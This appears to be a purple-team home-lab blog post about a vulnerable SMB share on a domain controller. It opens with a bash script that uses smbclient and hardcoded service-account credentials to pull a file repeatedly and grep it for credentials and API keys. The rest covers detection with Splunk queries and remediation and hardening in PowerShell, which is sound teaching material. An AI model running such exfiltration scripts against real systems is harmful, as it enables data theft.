







Attacking and Defending a Windows Network Share
I’ve got a vulnerable network share on domain controller DC01. SMB signing is disabled, and DC01 has overprivileged service accounts with predictable passwords. Let’s see what happens if an attacker finds out.
1The Exfiltration
#!/bin/bash
# ============================================
# CONFIGURATION
# ============================================
TARGET_IP="192.168.56.6"
SHARE_NAME="Public"
USERNAME="svc-generic"
PASSWORD="GENService2024!"
REMOTE_FILE="sensitive_data.txt"
LOOT_DIR="/opt/exfil/loot"
LOG_FILE="/opt/exfil/exfil.log"
HIGH_VALUE_FILE="/opt/exfil/high-value.txt"
# ============================================
TIMESTAMP=$(date +"%Y%m%d-%H%M%S")
LOCAL_FILE="$LOOT_DIR/stolen-$TIMESTAMP.txt"
mkdir -p "$LOOT_DIR"
smbclient "//$TARGET_IP/$SHARE_NAME" -U "$USERNAME%$PASSWORD" -c "get $REMOTE_FILE $LOCAL_FILE" 2>/dev/null
if [ -f "$LOCAL_FILE" ]; then
echo "[$TIMESTAMP] SUCCESS: Exfiltrated to $LOCAL_FILE" >> "$LOG_FILE"
grep -E "CREDENTIALS|API_KEY|FINANCIAL" "$LOCAL_FILE" >> "$HIGH_VALUE_FILE" 2>/dev/null
else
echo "[$TIMESTAMP] FAILED: Could not exfiltrate" >> "$LOG_FILE"
fi
find "$LOOT_DIR" -name "stolen-*.txt" -mtime +7 -delete
The attacker found a text file stored on the Public shared network folder called “sensitive_data.txtâ€. DC01 runs a script that appends more data every 5 minutes. The script above will use smbclient along with stolen credentials and the known IP address of the domain controller to exfiltrate the file every 5 minutes as well.

2The Logs
How would an administrator or security analyst discover this? We need to hunt for Event 5145 — A network share object was checked to see whether client can be granted desired access.
I cooked up a Splunk query that shows Kali specifically reaching for the sensitive_data.txt file along with the timestamps and IPÂ address:
index=* source="XmlWinEventLog:Security" EventCode=5145 IpAddress="192.168.56.36" RelativeTargetName="sensitive_data.txt" | table _time, SubjectUserName, IpAddress, RelativeTargetName, ShareName | sort _time

A generic service account accessing sensitive_data.txt every 5 minutes on the dot is a huge red flag. How would this be contained and remediated?
3The Response
Before we make any changes, let’s document the current configuration.
# Document current share permissions
Get-SmbShare -Name "Public" | Format-List
Get-SmbShareAccess -Name "Public" | Format-Table
# Document NTFS permissions
Get-Acl "C:\Shares\Public" | Format-List
# Document who's currently accessing the share
Get-SmbSession | Where-Object {$_.ShareName -like "*Public*"} | Format-Table
# Document what's on the share
Get-ChildItem "C:\Shares\Public" -Recurse | Select-Object FullName, Length, LastWriteTime | Format-Table 
No SMB session is active, despite the data being exfiltrated regularly. This is expected, as smbclient sessions are ephemeral and the connection only exists as long as the data transfer is taking place. Fortunately, we have the attacker’s IP address and the name of the compromised service account.
# Disable svc-generic temporarily while investigating Disable-ADAccount -Identity "svc-generic" # Verify it's disabled Get-ADUser -Identity "svc-generic" | Select-Object Enabled, PasswordLastSet, LastLogonDate # Block KALI's IP address New-NetFirewallRule -DisplayName "Block Attacker IP - KALI" -Direction Inbound -RemoteAddress "192.168.56.36" -Action Block -Enabled True # Verify rule exists Get-NetFirewallRule -DisplayName "Block Attacker IP - KALI"

Let’s find the scheduled task on DC01 that is generating the sensitive data.
# Check if task exists
Get-ScheduledTask -TaskName "SystemDataSync"
# View what it does
(Get-ScheduledTask -TaskName "SystemDataSync").Actions
# Remove it
Unregister-ScheduledTask -TaskName "SystemDataSync" -Confirm:$false
# Delete the malicious script
Remove-Item "C:\Scripts\DC01-Generate-Sensitive-Data.ps1" -Force -ErrorAction SilentlyContinue
# Verify removal
Get-ScheduledTask | Where-Object {$_.TaskName -like "*Sync*" -or $_.TaskName -like "*Data*"} 
Let’s cleanup and remove the files that still exist.
# Delete the sensitive data file Remove-Item "C:\Shares\Public\sensitive_data.txt" -Force # Remove any suspicious scripts Remove-Item "C:\Shares\Public\*.ps1" -Force Remove-Item "C:\Shares\Public\harvested_creds.txt" -Force Remove-Item "C:\Shares\Public\malicious_script.ps1" -Force # Verify cleanup Get-ChildItem "C:\Shares\Public"

4Defense in Depth
So, we cleaned up. But how do we prevent it from happening again?
Limit SMB Share Access
# Current state: Domain Users have Full Control # Target state: Domain Users have Read-Only, specific groups have Write # Remove excessive permissions Revoke-SmbShareAccess -Name "Public" -AccountName "CJCS\Domain Users" -Force # Grant Read-Only to Domain Users Grant-SmbShareAccess -Name "Public" -AccountName "CJCS\Domain Users" -AccessRight Read -Force # Create specific group for write access (if needed) New-ADGroup -Name "Public Share Contributors" -GroupScope Global -GroupCategory Security -Description "Users who can write to Public share" # Grant write access only to this group Grant-SmbShareAccess -Name "Public" -AccountName "CJCS\Public Share Contributors" -AccessRight Change -Force # Verify new permissions Get-SmbShareAccess -Name "Public"


Fix NTFS Permissions
# Get current ACL
$acl = Get-Acl "C:\Shares\Public"
# Remove "Everyone" if it exists
$everyone = $acl.Access | Where-Object {$_.IdentityReference -eq "Everyone"}
if ($everyone) {
$acl.RemoveAccessRule($everyone)
}
# Set Read-Only for Domain Users at NTFS level
$readRule = New-Object System.Security.AccessControl.FileSystemAccessRule("CJCS\Domain Users", "ReadAndExecute", "ContainerInherit,ObjectInherit", "None", "Allow")
$acl.SetAccessRule($readRule)
# Domain Admins get Full Control
$adminRule = New-Object System.Security.AccessControl.FileSystemAccessRule("CJCS\Domain Admins", "FullControl", "ContainerInherit,ObjectInherit", "None", "Allow")
$acl.SetAccessRule($adminRule)
# SYSTEM gets Full Control
$systemRule = New-Object System.Security.AccessControl.FileSystemAccessRule("NT AUTHORITY\SYSTEM", "FullControl", "ContainerInherit,ObjectInherit", "None", "Allow")
$acl.SetAccessRule($systemRule)
# Apply the new ACL
Set-Acl "C:\Shares\Public" -AclObject $acl
# Verify
Get-Acl "C:\Shares\Public" | Select-Object -ExpandProperty Access | Format-Table IdentityReference, FileSystemRights, AccessControlType 
Reset Compromised Password
Set-ADAccountPassword -Identity "svc-generic" -Reset -NewPassword (ConvertTo-SecureString "NewSecureP@ss2026!" -AsPlainText -Force) Enable-ADAccount -Identity "svc-generic" # Verify Get-ADUser "svc-generic" | Select-Object Enabled, PasswordLastSet

5Prevention
# Require SMB signing on server side
Set-SmbServerConfiguration -RequireSecuritySignature $true -EnableSecuritySignature $true -Force
# Verify
Get-SmbServerConfiguration | Select-Object RequireSecuritySignature, EnableSecuritySignature
# Enable detailed file share auditing
auditpol /set /subcategory:"File Share" /success:enable /failure:enable
auditpol /set /subcategory:"Detailed File Share" /success:enable /failure:enable
# Enable file system auditing
auditpol /set /subcategory:"File System" /success:enable /failure:enable
# Verify
auditpol /get /subcategory:"File Share"
auditpol /get /subcategory:"Detailed File Share"
# Add audit rule to track all access to Public share
$auditRule = New-Object System.Security.AccessControl.FileSystemAuditRule(
"Everyone",
"ReadData,WriteData,Delete",
"ContainerInherit,ObjectInherit",
"None",
"Success,Failure"
)
$acl = Get-Acl "C:\Shares\Public"
$acl.AddAuditRule($auditRule)
Set-Acl "C:\Shares\Public" -AclObject $acl
# Verify audit rules
Get-Acl "C:\Shares\Public" -Audit | Select-Object -ExpandProperty Audit
# Users can only see folders they have permission to access
Set-SmbShare -Name "Public" -FolderEnumerationMode AccessBased -Force
# Verify
Get-SmbShare -Name "Public" | Select-Object FolderEnumerationMode
What Does This Script Do?
The server will refuse connections from clients that don’t sign their SMB packets. When enabled, tools like Responder or ntlmrelayx can't intercept and relay SMB authentication because the cryptographic signatures won't match.
Event audit logging tells Windows to create Event ID 5140 logs whenever someone accesses a file share. Instead of just logging “someone connected to the share,†it logs every single file they touch.
Creates an audit rule object that will be applied to the Public share folder. This configuration says “log every time anyone reads, writes, or deletes files in this folder or its subfolders, whether they succeed or fail.â€
The Splunk Query for Suspicious Share Access
index=* source="XmlWinEventLog:Security" EventCode=5145 ShareName="\\*\Public" | where IpAddress!="192.168.56.6" AND IpAddress!="192.168.56.7" AND IpAddress!="192.168.56.8" AND NOT match(IpAddress, "^fe80") | stats count by _time, IpAddress, SubjectUserName, RelativeTargetName | where count > 5 | eval Alert="Suspicious file share access pattern detected"
Alert Settings:
- Trigger: When count > 5 in 10-minute window
- Action: Email SOCÂ team
- Severity: Medium
Has it been fixed? Let’s try to access the share from KALI and see what happens.

We successfully kicked out KALI from the DC01 Public network share. Something tells me this is not the last we will hear from the attacker. Stay tuned!
Follow me:
Rules and reproduction steps: github.com/purplepyram1d/rmm-multiplicity